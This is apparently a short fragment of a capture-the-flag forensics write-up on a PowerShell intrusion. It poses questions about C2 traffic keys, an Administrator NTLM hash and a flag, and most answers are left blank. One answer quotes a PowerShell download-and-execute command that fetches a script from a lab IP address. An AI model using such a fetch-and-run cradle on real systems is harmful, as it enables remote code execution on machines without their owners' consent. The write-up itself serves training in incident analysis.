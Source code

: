 <p>1.3. What command initiated the malicious script download?<br>
<code>IEX(New-Object Net.WebClient).downloadString('http://10.0.2.45/radius.ps1')</code></p>

<br>

<img width="1343" height="590" alt="image" src="https://github.com/user-attachments/assets/7316026d-9aed-4619-a090-156c1bdf96ce" />

<br>
<br>

<img width="1358" height="571" alt="image" src="https://github.com/user-attachments/assets/5657b241-81bf-4605-93e5-dbf7d15c7c4d" />

<br>
<br>
<br>

<p>1.4. What is the initial AES key that is used for decrypting the C2 traffic?<br>
<code>_________</code></p>

<br>
<br>
<br>

<p>1.5. What is the Administrator NTLM hash that the attacker found?<br>
<code>__________</code></p>

<br>
<br>
<br>

<p>1.6. What is the flag?<br>
<code>_________</code></p>


<br>
<br>
